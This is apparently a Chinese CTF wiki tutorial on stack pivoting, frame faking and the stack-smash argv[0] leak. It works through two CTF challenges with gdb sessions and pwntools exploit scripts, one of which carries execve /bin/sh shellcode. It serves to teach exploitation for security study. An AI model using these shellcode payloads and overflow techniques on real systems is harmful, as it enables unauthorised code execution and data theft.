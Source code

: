 ..

花式栈溢出技巧
==============

stack privot
^^^^^^^^^^^^^^^^

原理
----

stack privot，正如它所描述的，该技巧就是劫持栈指针指向攻击者所能控制的内存处。然后再在相应的位置进行ROP。一般来说，我们可能在以下情况需要使用stack privot

-  可以控制的栈溢出的字节数较少，难以构造较长的ROP链
-  开启了PIE保护，栈地址未知，我们可以将栈劫持到已知的区域。
-  其它漏洞难以利用，我们需要进行转换，比如说将栈劫持到堆空间，从而利用堆漏洞

此外，利用stack privot有以下几个要求

-  可以控制程序执行流。

-  可以控制sp指针。一般来说，控制栈指针会使用ROP，常见的控制栈指针的gadgets一般是

``asm   pop rsp/esp``

当然，还会有一些其它的姿势。比如说libc\_csu\_init中的gadgets，我们通过偏移就可以得到控制rsp指针。上面的是正常的，下面的是偏移的。

.. code-block::asm

gef➤  x/7i 0x000000000040061a
   0x40061a <__libc_csu_init+90>:    pop    rbx
   0x40061b <__libc_csu_init+91>:    pop    rbp
   0x40061c <__libc_csu_init+92>:    pop    r12
   0x40061e <__libc_csu_init+94>:    pop    r13
   0x400620 <__libc_csu_init+96>:    pop    r14
   0x400622 <__libc_csu_init+98>:    pop    r15
   0x400624 <__libc_csu_init+100>:    ret    
gef➤  x/7i 0x000000000040061d
   0x40061d <__libc_csu_init+93>:    pop    rsp
   0x40061e <__libc_csu_init+94>:    pop    r13
   0x400620 <__libc_csu_init+96>:    pop    r14
   0x400622 <__libc_csu_init+98>:    pop    r15
   0x400624 <__libc_csu_init+100>:   ret


此外，还有更加高级的fake frame。

-  存在可以控制内容的内存，一般有如下
-  bss段。由于进程按页分配内存，分配给bss段的内存大小至少一个页(4k,0x1000)大小。然而一般bss段的内容用不了这么多的空间，并且bss段分配的内存页拥有读写权限。
-  heap。但是这个需要我们能够泄露堆地址。

示例
----

例1
~~~

这里我们以 **X-CTF Quals 2016 - b0verfl0w** 为例，进行介绍。首先，查看程序的安全保护，如下

.. code:: shell

    ➜  X-CTF Quals 2016 - b0verfl0w git:(iromise) ✗ checksec b0verfl0w                 
        Arch:     i386-32-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX disabled
        PIE:      No PIE (0x8048000)
        RWX:      Has RWX segments

可以看出源程序为32位，也没有开启NX保护，下面我们来找一下程序的漏洞

.. code:: c

    signed int vul()
    {
      char s; // [sp+18h] [bp-20h]@1

      puts("\n======================");
      puts("\nWelcome to X-CTF 2016!");
      puts("\n======================");
      puts("What's your name?");
      fflush(stdout);
      fgets(&s, 50, stdin);
      printf("Hello %s.", &s);
      fflush(stdout);
      return 1;
    }

可以看出，源程序存在栈溢出漏洞。但是其所能溢出的字节就只有50-0x20-4=14个字节，所以我们很难执行一些比较好的ROP。这里我们就考虑stack
privot。由于程序本身并没有开启堆栈保护，所以我们可以在栈上布置shellcode并执行。基本利用思路如下

-  利用栈溢出布置shellcode
-  控制eip指向shellcode处

第一步，还是比较容易地，直接读取即可，但是由于程序本身会开启ASLR保护，所以我们很难直接知道shellcode的地址。但是栈上相对偏移是固定的，所以我们可以利用栈溢出对esp进行操作，使其指向shellcode处，并且直接控制程序跳转至esp处。那下面就是找控制程序跳转到esp处的gadgets了。

.. code:: asm

    ➜  X-CTF Quals 2016 - b0verfl0w git:(iromise) ✗ ROPgadget --binary b0verfl0w --only 'jmp|ret'         
    Gadgets information
    ============================================================
    0x08048504 : jmp esp
    0x0804836a : ret
    0x0804847e : ret 0xeac1

    Unique gadgets found: 3

这里我们发现有一个可以直接跳转到esp的gadgets。那么我们可以布置payload如下

.. code:: text

    shellcode|padding|fake ebp|0x08048504|set esp point to shellcode and jmp esp

那么我们payload中的最后一部分改如何设置esp呢，可以知道

-  size(shellcode+padding)=0x20
-  size(fake ebp)=0x4
-  size(0x08048504)=0x4

所以我们最后一段需要执行的指令就是

.. code:: asm

    sub 0x28,esp
    jmp esp

所以最后的exp如下

.. code:: python

    from pwn import *
    sh = process('./b0verfl0w')

    shellcode_x86 = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
    shellcode_x86 += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
    shellcode_x86 += "\x0b\xcd\x80"

    sub_esp_jmp = asm('sub esp, 0x28;jmp esp')
    jmp_esp = 0x08048504
    payload = shellcode_x86 + (
        0x20 - len(shellcode_x86)) * 'b' + 'bbbb' + p32(jmp_esp) + sub_esp_jmp
    sh.sendline(payload)
    sh.interactive()

例2-转移堆
~~~~~~~~~~

待。

题目
----

-  EkoPartyCTF 2016 fuckzing-exploit-200

frame faking
^^^^^^^^^^^^^^^^^^^^

正如这个技巧名字所说的那样，这个技巧就是构造一个虚假的栈帧来控制程序的执行流。

原理
----

概括地讲，我们在之前讲的栈溢出不外乎两种方式

-  控制程序EIP
-  控制程序EBP

其最终都是控制程序的执行流。在frame faking中，我们所利用的技巧便是同时控制EBP与EIP，这样我们在控制程序执行流的同时，也改变程序栈帧的位置。一般来说其payload如下

::

    buffer padding|fake ebp|leave ret addr|

即我们利用栈溢出将栈上构造为如上格式。这里我们主要接下后面两个部分

-  函数的返回地址被我们覆盖为执行leave
   ret的地址，这就表明了函数在正常执行完自己的leave
   ret后，还会再次执行一次leave ret。
-  其中fake
   ebp为我们构造的栈帧的基地址，需要注意的是这里是一个地址。一般来说我们构造的假的栈帧如下

::

    fake ebp
    |
    v
    ebp2|target function addr|leave ret addr|arg1|arg2

这里我们的 fake ebp 指向 ebp2 ，即它为ebp2所在的地址。通常来说，这里都是我们能够控制的可读的内容。在我们介绍基本的控制过程之前，我们还是有必要说一下，函数的入口点与出口点的基本操作

入口点

::

    push ebp  # 将ebp压栈
    move esp, ebp #将esp的值赋给ebp

出口点

::

    leave
    ret #pop eip，弹出栈顶元素作为程序下一个执行地址

其中leave指令相当于

::

    move ebp, esp # 将ebp的值赋给esp
    pop ebp #弹出ebp

下面我们来仔细说一下基本的控制过程。

1. 在有栈溢出的程序执行leave时，其分为两个步骤

	-  move ebp, esp ，这会将esp也指向当前栈溢出漏洞的ebp基地址处。
	-  pop ebp， 这会将栈中存放的fake
	   ebp的值赋给ebp。即执行完指令之后，ebp便指向了ebp2，也就是保存了ebp2所在的地址。

2. 执行ret指令，会再次执行leave ret指令。

3. 执行leave指令，其分为两个步骤

	-  move ebp, esp ，这会将esp指向ebp2。
	-  pop ebp，此时，会将ebp的内容设置为ebp2的值，同时esp会指向target
	   function。

4. 执行ret指令，这时候程序就会执行targetfunction，当其进行程序的时候会执行

	-  push ebp,会将ebp2值压入栈中，

	-  move esp, ebp，将ebp指向当前基地址。此时的栈结构为 ``ebp  |  v  ebp2|leave ret addr|arg1|arg2``

5. 当程序执行师，其会正常申请空间，同时我们在栈上也安排了该函数对应的参数，所以程序会正常执行。

6. 程序结束后，其又会执行两次 leave ret
   addr，所以如果我们在ebp2处布置好了对应的内容，那么我们就可以一直控制程序的执行流程。

可以看出在fake frame中，我们有一个需求就是，我们必须得有一块可以写的内存，并且我们还知道这块内存的地址，这一点与stack
privot相似。

例子
----

目前来说，我在exploit-exercise的fusion
level2中利用过这个技巧，其它地方暂时还未遇到，遇到的时候再进行补充。

题目
----

参考阅读

-  http://www.xfocus.net/articles/200602/851.html
-  http://phrack.org/issues/58/4.html

Stack smash
^^^^^^^^^^^^^^^^^^^^

原理
----

在程序加了canary保护之后，如果我们读取的buffer覆盖了对应的值时，程序就会报错，而一般来说我们并不会关心报错信息。而stack
smash技巧则就是利用打印这一信息的程序来得到我们想要的内容。这是因为在程序发现canary保护之后，如果发现canary被修改的话，程序就会执行__stack_chk_fail函数来打印argv[0]指针所指向的字符串，正常情况下，这个指针指向了程序名。其代码如下

.. code:: c

    void __attribute__ ((noreturn)) __stack_chk_fail (void)
    {
      __fortify_fail ("stack smashing detected");
    }
    void __attribute__ ((noreturn)) internal_function __fortify_fail (const char *msg)
    {
      /* The loop is added only to keep gcc happy.  */
      while (1)
        __libc_message (2, "*** %s ***: %s terminated\n",
                        msg, __libc_argv[0] ?: "<unknown>");
    }

所以说如果我们利用栈溢出覆盖argv[0]为我们想要输出的字符串的地址，那么在 __fortify_fail 函数中就会输出我们想要的信息。

例子
----

这里，我们以2015年32C3 CTF smashes为例进行介绍，该题目在 jarvisoj 上有复现。

确定保护
~~~~~~~~

可以看出程序为64位，主要开启了Canary保护以及NX保护，以及FORTIFY保护。

.. code:: shell

    ➜  stacksmashes git:(master) ✗ checksec smashes
        Arch:     amd64-64-little
        RELRO:    No RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      No PIE (0x400000)
        FORTIFY:  Enabled

分析程序
~~~~~~~~

ida看一下

.. code:: c

    __int64 sub_4007E0()
    {
      __int64 v0; // rax@1
      __int64 v1; // rbx@2
      int v2; // eax@3
      __int64 v4; // [sp+0h] [bp-128h]@1
      __int64 v5; // [sp+108h] [bp-20h]@1

      v5 = *MK_FP(__FS__, 40LL);
      __printf_chk(1LL, (__int64)"Hello!\nWhat's your name? ");
      LODWORD(v0) = _IO_gets((__int64)&v4);
      if ( !v0 )
    LABEL_9:
        _exit(1);
      v1 = 0LL;
      __printf_chk(1LL, (__int64)"Nice to meet you, %s.\nPlease overwrite the flag: ");
      while ( 1 )
      {
        v2 = _IO_getc(stdin);
        if ( v2 == -1 )
          goto LABEL_9;
        if ( v2 == '\n' )
          break;
        byte_600D20[v1++] = v2;
        if ( v1 == ' ' )
          goto LABEL_8;
      }
      memset((void *)((signed int)v1 + 0x600D20LL), 0, (unsigned int)(32 - v1));
    LABEL_8:
      puts("Thank you, bye!");
      return *MK_FP(__FS__, 40LL) ^ v5;
    }

很显然，程序在 _IO_gets((__int64)&v4); 存在栈溢出。

此外，程序中还提示要overwrite flag。而且发现程序很有意思的在while循环之后执行了这条语句

.. code:: c

      memset((void *)((signed int)v1 + 0x600D20LL), 0, (unsigned int)(32 - v1));

又看了看对应地址的内容，可以发现如下内容，说明程序的flag就在这里啊。

::

    .data:0000000000600D20 ; char aPctfHereSTheFl[]
    .data:0000000000600D20 aPctfHereSTheFl db 'PCTF{Here',27h,'s the flag on server}',0

但是如果我们直接利用栈溢出输出该地址的内容是不可行的，这是因为我们读入的内容 ``byte_600D20[v1++] = v2;`` 也恰恰就是该块内存，这会直接将其覆盖掉，这时候我们就需要利用一个技巧了

-  在EFL内存映射时，bss段会被映射两次，所以我们可以使用另一处的地址来进行输出，可以使用gdb的find来进行查找。

确定flag地址
~~~~~~~~~~~~

我们把断点下载memset函数处，然后读取相应的内容如下

.. code:: shell

    gef➤  c
    Continuing.
    Hello!
    What's your name? qqqqqqq
    Nice to meet you, qqqqqqq.
    Please overwrite the flag: 222222222

    Breakpoint 1, __memset_avx2 () at ../sysdeps/x86_64/multiarch/memset-avx2.S:38
    38  ../sysdeps/x86_64/multiarch/memset-avx2.S: 没有那个文件或目录.
    ─────────────────────────────────────[ code:i386:x86-64 ]────
       0x7ffff7b7f920 <__memset_chk_avx2+0> cmp    rcx, rdx
       0x7ffff7b7f923 <__memset_chk_avx2+3> jb     0x7ffff7b24110 <__GI___chk_fail>
       0x7ffff7b7f929                  nop    DWORD PTR [rax+0x0]
     → 0x7ffff7b7f930 <__memset_avx2+0> vpxor  xmm0, xmm0, xmm0
       0x7ffff7b7f934 <__memset_avx2+4> vmovd  xmm1, esi
       0x7ffff7b7f938 <__memset_avx2+8> lea    rsi, [rdi+rdx*1]
       0x7ffff7b7f93c <__memset_avx2+12> mov    rax, rdi
    ───────────────────────────────────────────────────────────────────[ stack ]────
    ['0x7fffffffda38', 'l8']
    8
    0x00007fffffffda38│+0x00: 0x0000000000400878  →   mov edi, 0x40094e  ← $rsp
    0x00007fffffffda40│+0x08: 0x0071717171717171 ("qqqqqqq"?)
    0x00007fffffffda48│+0x10: 0x0000000000000000
    0x00007fffffffda50│+0x18: 0x0000000000000000
    0x00007fffffffda58│+0x20: 0x0000000000000000
    0x00007fffffffda60│+0x28: 0x0000000000000000
    0x00007fffffffda68│+0x30: 0x0000000000000000
    0x00007fffffffda70│+0x38: 0x0000000000000000
    ──────────────────────────────────────────────────────────────────────────────[ trace ]────
    [#0] 0x7ffff7b7f930 → Name: __memset_avx2()
    [#1] 0x400878 → mov edi, 0x40094e
    ──────────────────────────────────────────────────────────────────────────────
    gef➤  find 22222
    Argument required (expression to compute).
    gef➤  find '22222'
    No symbol "22222" in current context.
    gef➤  grep '22222'
    [+] Searching '22222' in memory
    [+] In '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/stackoverflow/example/stacksmashes/smashes'(0x600000-0x601000), permission=rw-
      0x600d20 - 0x600d3f  →   "222222222's the flag on server}" 
    [+] In '[heap]'(0x601000-0x622000), permission=rw-
      0x601010 - 0x601019  →   "222222222" 
    gef➤  grep PCTF
    [+] Searching 'PCTF' in memory
    [+] In '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/stackoverflow/example/stacksmashes/smashes'(0x400000-0x401000), permission=r-x
      0x400d20 - 0x400d3f  →   "PCTF{Here's the flag on server}" 

可以看出我们读入的2222已经覆盖了0x600d20处的flag，但是我们在内存的0x400d20处仍然找到了这个flag的备份，所以我们还是可以将其输出。这里我们已经确定了flag的地址。

确定偏移
~~~~~~~~

下面，我们确定argv[0]距离读取的字符串的偏移。

首先下断点在main函数入口处，如下

.. code:: shell

    gef➤  b *0x00000000004006D0
    Breakpoint 1 at 0x4006d0
    gef➤  r
    Starting program: /mnt/hgfs/Hack/ctf/ctf-wiki/pwn/stackoverflow/example/stacksmashes/smashes 

    Breakpoint 1, 0x00000000004006d0 in ?? ()
     code:i386:x86-64 ]────
         0x4006c0 <_IO_gets@plt+0> jmp    QWORD PTR [rip+0x20062a]        # 0x600cf0 <_IO_gets@got.plt>
         0x4006c6 <_IO_gets@plt+6> push   0x9
         0x4006cb <_IO_gets@plt+11> jmp    0x400620
     →   0x4006d0                  sub    rsp, 0x8
         0x4006d4                  mov    rdi, QWORD PTR [rip+0x200665]        # 0x600d40 <stdout>
         0x4006db                  xor    esi, esi
         0x4006dd                  call   0x400660 <setbuf@plt>
    ──────────────────────────────────────────────────────────────────[ stack ]────
    ['0x7fffffffdb78', 'l8']
    8
    0x00007fffffffdb78│+0x00: 0x00007ffff7a2d830  →  <__libc_start_main+240> mov edi, eax    ← $rsp
    0x00007fffffffdb80│+0x08: 0x0000000000000000
    0x00007fffffffdb88│+0x10: 0x00007fffffffdc58  →  0x00007fffffffe00b  →  "/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/stackoverflow/exam[...]"
    0x00007fffffffdb90│+0x18: 0x0000000100000000
    0x00007fffffffdb98│+0x20: 0x00000000004006d0  →   sub rsp, 0x8
    0x00007fffffffdba0│+0x28: 0x0000000000000000
    0x00007fffffffdba8│+0x30: 0x48c916d3cf726fe3
    0x00007fffffffdbb0│+0x38: 0x00000000004006ee  →   xor ebp, ebp
    ──────────────────────────────────────────────────────────────[ trace ]────
    [#0] 0x4006d0 → sub rsp, 0x8
    [#1] 0x7ffff7a2d830 → Name: __libc_start_main(main=0x4006d0, argc=0x1, argv=0x7fffffffdc58, init=<optimized out>, fini=<optimized out>, rtld_fini=<optimized out>, stack_end=0x7fffffffdc48)
    ---Type <return> to continue, or q <return> to quit---
    [#2] 0x400717 → hlt 

可以看出0x00007fffffffe00b指向程序名，其自然就是argv[0]，所以我们修改的内容就是这个地址。同时0x00007fffffffdc58处保留着该地址，所以我们真正需要的地址是0x00007fffffffdc58。

此外，根据汇编代码

.. code:: asm

    .text:00000000004007E0                 push    rbp
    .text:00000000004007E1                 mov     esi, offset aHelloWhatSYour ; "Hello!\nWhat's your name? "
    .text:00000000004007E6                 mov     edi, 1
    .text:00000000004007EB                 push    rbx
    .text:00000000004007EC                 sub     rsp, 118h
    .text:00000000004007F3                 mov     rax, fs:28h
    .text:00000000004007FC                 mov     [rsp+128h+var_20], rax
    .text:0000000000400804                 xor     eax, eax
    .text:0000000000400806                 call    ___printf_chk
    .text:000000000040080B                 mov     rdi, rsp
    .text:000000000040080E                 call    __IO_gets

我们可以确定我们读入的字符串的起始地址其实就是调用 __IO_gets 之前的rsp，所以我们把断点下在call处，如下

.. code:: asm

    gef➤  b *0x000000000040080E
    Breakpoint 2 at 0x40080e
    gef➤  c
    Continuing.
    Hello!
    What's your name? 
    Breakpoint 2, 0x000000000040080e in ?? ()
    ──────────────────────────[ code:i386:x86-64 ]────
         0x400804                  xor    eax, eax
         0x400806                  call   0x4006b0 <__printf_chk@plt>
         0x40080b                  mov    rdi, rsp
     →   0x40080e                  call   0x4006c0 <_IO_gets@plt>
       ↳    0x4006c0 <_IO_gets@plt+0> jmp    QWORD PTR [rip+0x20062a]        # 0x600cf0 <_IO_gets@got.plt>
            0x4006c6 <_IO_gets@plt+6> push   0x9
            0x4006cb <_IO_gets@plt+11> jmp    0x400620
            0x4006d0                  sub    rsp, 0x8
    ──────────────────[ stack ]────
    ['0x7fffffffda40', 'l8']
    8
    0x00007fffffffda40│+0x00: 0x0000ff0000000000     ← $rsp, $rdi
    0x00007fffffffda48│+0x08: 0x0000000000000000
    0x00007fffffffda50│+0x10: 0x0000000000000000
    0x00007fffffffda58│+0x18: 0x0000000000000000
    0x00007fffffffda60│+0x20: 0x0000000000000000
    0x00007fffffffda68│+0x28: 0x0000000000000000
    0x00007fffffffda70│+0x30: 0x0000000000000000
    0x00007fffffffda78│+0x38: 0x0000000000000000
    ───────────────────────────────────────────────────────────────────────────────────────────────────[ trace ]────
    [#0] 0x40080e → call 0x4006c0 <_IO_gets@plt>
    ─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
    gef➤  print $rsp
    $1 = (void *) 0x7fffffffda40

可以看出rsp的值为0x7fffffffda40，那么相对偏移为

.. code:: python

    >>> 0x00007fffffffdc58-0x7fffffffda40
    536
    >>> hex(536)
    '0x218'

利用程序
~~~~~~~~

我们构造利用程序如下

.. code:: python

    from pwn import *
    context.log_level = 'debug'
    smash = ELF('./smashes')
    if args['REMOTE']:
        sh = remote('pwn.jarvisoj.com', 9877)
    else:
        sh = process('./smashes')
    argv_addr = 0x00007fffffffdc58
    name_addr = 0x7fffffffda40
    flag_addr = 0x600D20
    another_flag_addr = 0x400d20
    payload = 'a' * (argv_addr - name_addr) + p64(another_flag_addr)
    sh.recvuntil('name? ')
    sh.sendline(payload)
    sh.recvuntil('flag: ')
    sh.sendline('bb')
    data = sh.recv()
    sh.interactive()

这里我们直接就得到了flag，没有出现网上说的得不到flag的情况。

题目
----
